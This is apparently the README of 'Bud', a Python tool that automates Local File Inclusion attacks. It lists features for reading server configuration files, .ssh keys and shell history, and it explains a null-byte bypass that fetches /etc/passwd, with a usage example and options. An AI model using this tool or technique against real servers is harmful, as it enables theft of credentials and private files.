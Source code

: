 # Bud :D
This script automatically extracts user / system files trough Local File Inclusion.

# Current features:
* inject anywhere (parameter + path) (use the * to set the injection point)
* checks absolute path and relative path method
* supports suffix bypass by using a null-byte
* supports filter bypass by using a null-byte + fake extension
* scans for readable configuration files (Apache, MySQL, Nginx, SSHd and DHCPclient)
* scans for readable user files (.ssh files, user profile, bashrc, history file)
* scans for possible log injection (Apache + Nginx)
* gathers some basic system info
* supports all 7392 genders and Python 2.x & 3.x

# How to install
* git clone https://github.com/stefan2200/Bud.git bud
* cd bud
* pip install -r requirements.txt
* python bud.py -hh

# How to use
an actual results file here. git markup does not like all those hashtags :)
*python bud.py -u "http://vulie.local/image.php?mime=jpg&src=*" -e jpg -i*
-u: the url to start with, needs mime set to extension to actually call the vuln function
also both mime and extension must be a valid image format
-e jpg to append a null-byte followed by the fake extension
back-end sees: /etc/passwd\0.jpg
server sees: /etc/passwd

*Output of this command is available in results.txt*

Usage: bud.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL                The URL to start with including an astrix (*) for the
                        inject point
  -n, --null-byte       Use a null-byte to bypass suffix
  -e ERROR_TEXT, --error=ERROR_TEXT
                        Text to look for when a file is not found, default:
                        auto detect
  -p, --print           Text to look for when a file is not found, default:
                        auto detect
  -i, --ignore          Do not print files that are not found
  -f FAKE_EXTENSION, --fake-ext=FAKE_EXTENSION
                        Use null-byte followed by this fake extension (enables
                        -n)
